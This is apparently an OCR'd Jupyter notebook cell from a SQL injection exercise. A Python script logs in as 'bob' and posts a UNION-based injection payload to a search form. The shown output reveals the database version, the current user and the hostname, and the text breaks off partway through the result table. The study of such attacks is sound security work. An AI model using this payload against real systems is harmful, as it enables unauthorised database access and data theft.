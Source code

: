```python

# Send the POST request to login
login_response = session.post(login_url, data=login_data)

# Check if login was successful by looking for a specific element or text in the login_response
if 'Welcome ' in login_response.text:
    print("Successfully logged in as bob")

    # Data to be sent in the POST request for search
    search_data = {
        'searchitem': payload
    }

    # Send the POST request to search
    response = session.post(search_url, data=search_data)


    # Parse the HTML response
    soup = BeautifulSoup(response.text, 'html.parser')

    # Extract the specific table's content within the searchheader div
    result_div = soup.find('div', class_='searchheader')
    if result_div:
        result_table = result_div.find('table')
        if result_table:
            # Print the payload and the HTML of the specific table in the notebook
            print(f"Payload: {payload}")
            display(HTML(result_table.prettify()))
        else:
            print("No table found inside searchheader div")
    else:
        print("No searchheader div found in the response")
else:
    print("Login failed")

```

    Successfully logged in as bob
    Payload: 1' UNION SELECT 1, 2, version(), current_user(), @@hostname -- 


    C:\Users\safwan\AppData\Local\Temp\ipykernel_40644\562189840.py:3: DeprecationWarning: Importing display from IPython.core.display is deprecated since IPython 7.14, please import from IPython display
      from IPython.core.display import display, HTML



<table>
 <tr>
  <td style="width:200px ">
   <b>
    Product Name
   </b>
  </td>
  <td style="width:200px ">
   <b>
    Product Type
   </b>
  </td>
  <td style="width:450px ">
   <b>
    Description
   </b>
  </td>
  <td style="width:110px ">
   <b>